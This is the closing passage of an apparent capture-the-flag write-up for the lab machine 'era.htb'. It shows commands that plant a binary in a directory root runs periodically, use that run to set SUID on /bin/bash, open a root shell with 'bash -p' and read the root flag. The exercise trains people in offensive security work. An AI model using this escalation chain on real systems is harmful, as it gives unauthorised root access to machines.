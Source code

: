 We can copy the signed binary to the `/opt/AV/periodic-checks/` directory:
```bash
cat monitor.signed > /opt/AV/periodic-checks/monitor
```


Once `root` executes the `monitor` binary, it will add SUID permission to `/bin/bash`.
We can check if the SUID permission has been added:
```bash
ls -l /bin/bash
```
```
-rwsr-xr-x 1 root root 1196320 Jul 29 12:00 /bin/bash
```

Finally, we can get a root shell by executing the following command:
```bash
/bin/bash -p
whoami
```
```
root
```


We can read the root flag:
```bash
cat /root/root.txt
```
```
root flag value
```


## Conclusion

In this write-up, we successfully exploited the `era.htb` machine by leveraging a file upload vulnerability to gain access to user credentials, and then used those credentials to escalate privileges to root. We demonstrated how to manipulate a binary file to execute arbitrary commands as root, ultimately allowing us to read the root flag. This exercise highlights the importance of secure coding practices and regular security audits to prevent such vulnerabilities.